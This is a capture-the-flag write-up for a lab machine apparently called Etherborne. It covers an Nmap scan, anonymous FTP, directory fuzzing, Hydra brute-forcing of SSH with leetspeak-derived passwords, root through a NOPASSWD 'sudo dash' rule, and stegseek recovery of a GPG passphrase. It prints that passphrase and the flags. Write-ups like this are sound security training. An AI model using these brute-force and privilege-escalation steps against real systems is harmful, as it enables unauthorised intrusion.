









# Reborne

Fist I had to find the the IP address with netdiscover. After that I ran an agressive Nmap scan

```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-05-31 13:29 +0800
Nmap scan report for 192.168.253.165
Host is up (0.00075s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0          640884 Aug 06  2023 Mainframe.pdf
|_-rw-r--r--    1 0        0            2429 Aug 06  2023 hint.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.253.129
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 2b:99:9f:62:0e:d2:fe:69:ac:f9:66:8b:d4:97:3c:b9 (RSA)
|   256 09:ee:50:e7:23:0d:03:bd:7a:fd:ca:d2:17:57:07:4d (ECDSA)
|_  256 63:b3:36:60:6b:64:9a:5f:33:5a:de:5b:05:aa:08:ac (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 00:0C:29:CD:67:3B (VMware)
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I started by enumerating FTP as anon was allowed

```
ftp> ls
229 Entering Extended Passive Mode (|||7488|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0          640884 Aug 06  2023 Mainframe.pdf
-rw-r--r--    1 0        0            2429 Aug 06  2023 hint.txt
```

I downloaded both files. The hint was encoded with base64, these are the contents after decoding:


\--\_-- Rick rolled.

The PDF was something about Micro Focus Mainframe, I'll ignore it for now. Taking a look at HTTP, it's just the default Apache page, so I tried fuzzing directories

```
                        [Status: 200, Size: 10960, Words: 3505, Lines: 379, Duration: 4ms]
.htaccess               [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 4ms]
.htpasswd               [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 3ms]
.hta                    [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 7ms]
img                     [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 2ms]
index.html              [Status: 200, Size: 10960, Words: 3505, Lines: 379, Duration: 11ms]
server-status           [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 10ms]
:: Progress: [4614/4614] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```



After looking around for a while, I found this page



I added mainframe.local to my /etc/hosts and got this page:



Going to robots.txt of mainfram.local, we get this:

```
User-agent: *
Disallow: /chip/
Disallow: /clog/
Disallow: /krypton/
Disallow: /mow/
Disallow: /steam/
Disallow: /password.php?id=2
Disallow: /prometheus/
Disallow: /lfg/
Disallow: /logs/
Disallow: /secret/
Disallow: /unityverse/
Disallow: /2434/
Disallow: /search.php
Disallow: /login.php
Disallow: /_home/
```

Hmm, something at /password.php?id=2



Also, found a page at `/lfg/gohere/alittlebitmore/almostthere/`


Going to [ap0k4l1p5.github.io/talesofcred.html ](https://ap0k4l1p5.github.io/talesofcred.html), there is a huge lore dump with some hidden leetspeak. I copied the text and extracted the leetspeak with GPT bro (I am lazy).

```
Eth3rb0rn3
M3tr0p0L15
r3l3ntl3zZz
R3C0nc1LL147i0n
3nIgm4T1c
pr0m3th3U5
C0nC1045n355
C1v1l124710n5
1nT3rM1n6L1n6
Un17yW34v3r5
1nT3rM1n6L1n6
Un17yW34v3r5
```

I then used Hydra to brute force an SSH login, with the username apokalips (since it's the only name I got so far).



```
apokalips@etherborne:~$ ls
user.txt
apokalips@etherborne:~$ cat user.txt 
This is user.txt file. FYI :)
```

I guess we have to privesc

```
apokalips@etherborne:~$ sudo -l
Matching Defaults entries for apokalips on etherborne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User apokalips may run the following commands on etherborne:
    (ALL) NOPASSWD: /usr/bin/dash

```

Looking dash up in GTFOBins



So, I just tried running `sudo dash`



Looks like the file is locked with GPG. After looking around for a while, I found a [writeup](https://vicevirus.github.io/posts/etherborne-apokalips-box/) of a variant of this machine, and got the hint of Steganography.

I downloaded the image from `index.html` and used stegseek to extract the password



The password is `H3J35'S_F0R3S4W_T4LES`. Using this I unlocked the flag file with `gpg root.txt.gpg`

```
# cat root.txt
You think you made it, dont you? :D
```

Fair enough I guess, since the writeup up until this point was online. Time to look deeper. I did a search: `find / -name "*.txt" 2>/dev/null`



There it is :)

```
# cat .flag.txt
Here's what you looking for :D


OWASPKL{N1c3_t0_m33t_y0u}
```
